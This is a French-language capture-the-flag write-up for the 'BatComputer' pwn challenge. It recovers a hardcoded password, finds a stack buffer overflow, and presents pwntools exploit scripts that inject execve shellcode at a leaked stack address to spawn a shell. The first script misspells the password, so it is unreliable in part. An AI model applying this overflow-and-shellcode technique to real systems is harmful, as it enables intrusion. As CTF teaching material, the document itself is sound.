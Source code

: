 # BatComputer [Pwn] Challenge

`— Le binaire —`

Quand nous lançons le programme qui est un ELF 64 bit nous pouvons voir 2 choix .

![Untitled](BatComputer%20%5BPwn%5D%20Challenge%2031317262ee444cfc8e4662891aff547f/Untitled.png)

En entrant 1 nous allons recevoir ce message et allons recommencer le programme. On vois directement que `0x7fffaaeb5de4` est une adresse mémoire.  

![Untitled](BatComputer%20%5BPwn%5D%20Challenge%2031317262ee444cfc8e4662891aff547f/Untitled%201.png)

En entrant 2 nous allons recevoir un input nous demandant de rentrer un mot de passe.

![Untitled](BatComputer%20%5BPwn%5D%20Challenge%2031317262ee444cfc8e4662891aff547f/Untitled%202.png)

Le mot de passe est mauvais le programme va s’arrêter.

`— IDA —`

Démarrons IDA pour observer ce programme en détaille. Nous allons directement dans IDA-View-A de la fonction main.

On vois l’arbre de la logique du programme et à l’input du mot de passe nous avons un commentaire `; "b4tp@$$w0rd!”`

![Untitled](BatComputer%20%5BPwn%5D%20Challenge%2031317262ee444cfc8e4662891aff547f/Untitled%203.png)

Ici le programme va charger une variable contenant le résultat demandé et comparé avec la fonction _strcmp avec notre mot de passe si ils sont égaux si oui nous allons passé à la suite du programme.

Grâce au mot de passe trouvé dans IDA nous avons la possibilité de continuer le 2ème chemin.

![Untitled](BatComputer%20%5BPwn%5D%20Challenge%2031317262ee444cfc8e4662891aff547f/Untitled%204.png)

Nous avons un deuxième input ou nous pouvons entrer un commande. 

`Deuxième possibilité :` Nous pouvons trouver ce mot de passe de plusieurs façons ici la plus courte avec ltrace qui va nous montrer toutes les fonction utilisé de nos programme. Le seul problème en utilisant ltrace c’est que entrons dans l’analyse dynamique qui n’est pas à faire sur un exécutable inconnu. 

![Untitled](BatComputer%20%5BPwn%5D%20Challenge%2031317262ee444cfc8e4662891aff547f/Untitled%205.png)

Nous voyons que en rentrant notre mot de passe nous avons eu une comparaison comme dans le code assembleur qui va vérifié si notre entré est `b4tp@$$w0rd!`.

`— Exploitation —`

En analysant avec ghidra le fichier et en trouvant la bonne fonction `FUN_001011ec` le read après avoir lu notre dernière input pour la commande de navigation va lire auStack84 qui ne peux contenir que 76 entrer

Si nous mettons par exemple 80 A dans la variable il nous faut un return dans ghidra le seul moyen d’avoir un return et de revenir au début et dans le choix 1 ou 2 mettre une valeurs incorrecte essayons.

![Untitled](BatComputer%20%5BPwn%5D%20Challenge%2031317262ee444cfc8e4662891aff547f/Untitled%206.png)

Nous avons bien réussi a faire un crash à notre programme nous devrons donc passer par ce moyen pour exploiter ce programme.

```python
#!/usr/bin/env python3

from pwn import *

def main():
    io = process('./batcomputer')

    #STEP 0
    # Enuméré les binaires
    password = "b4tp@$$word!"

    #STEP 1
    #Avoir l'adresse du stack
    io.sendlineafter('>', '1')
    stack_address = io.recvline().strip().split()[-1]
    stack_address = ''.join([chr(int(stack_address[i:i+2], 16)) for i in range(2, len(stack_address), 2)])
    stack_address = stack_address.rjust(8, '\x00')
    stack_address = u64(stack_address)
    print(stack_address)
    log.success(f"Leaked stack address: {p64(stack_address)}")

    #STEP2 
    #Buffer Overflow
    io.sendlineafter('>', '2')
    io.sendlineafter("password: ", password)
    payload = "a" * 137
    io.sendlineafter("commands: ", payload)

    #STEP3
    io.sendlineafter('>', '3')
    io.interactive()
if __name__ == '__main__':
    main()
```

Nous devons maintenant exploiter le buffer nous allons d’abord déterminer la limite de l’entrée.

```bash
┌──(root💀kali)-[/home/kali]
└─# python3                                                                          
Python 3.10.4 (main, Mar 24 2022, 13:07:27) [GCC 11.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> from pwn import *
>>> cyclic(137)
b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabj'
```

On exécute le programme avec gdb et nous mettons le payload générer avec cyclic dans command puis nous exécutons le return en mettant 3.

Dans gdb nous voyons les retour et dans RSP nous avons (’vaaawaaa’)

![Untitled](BatComputer%20%5BPwn%5D%20Challenge%2031317262ee444cfc8e4662891aff547f/Untitled%207.png)

```bash
┌──(root💀kali)-[/home/kali]
└─# python3                                                                          
Python 3.10.4 (main, Mar 24 2022, 13:07:27) [GCC 11.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> from pwn import *
>>> cyclic(137)
b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabj'
>>> cyclic_find('vaaa')
84
```

```python
#!/usr/bin/python3

from pwn import *

def main():
    context.log_level='DEBUG'
    context.update(arch='amd64', os='linux')
    log.info("lets solve")
    p=process('./batcomputer')

    # leak address of my buffer
    p.recvuntil('>')
    p.sendline('1')

    leak_address = p.recvline().split()[-1]
    leak_address = int(leak_address,16)
    log.success(f'leak_address: {hex(leak_address)}')

    # send evil payload
    # payload + eip + shellcode

    padding = b'A' * 84

    shellcode  = b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91"
    shellcode += b"\xd0\x8c\x97\xff\x48\xf7\xdb\x53"
    shellcode += b"\x54\x5f\x99\x52\x57\x54\x5e\xb0"
    shellcode += b"\x3b\x0f\x05"

    buffer = flat (
            padding,
            p64(leak_address + 84+8),
            shellcode
            )

    p.recvuntil('>')
    p.send('2')
    p.recv()
    p.sendline('b4tp@$$w0rd!')
    p.recvline()
    p.send(buffer)

    # trigger buffer overflow
    p.recvline()
    p.sendline('3')

    p.interactive()

if __name__ == '__main__':
    main()
```
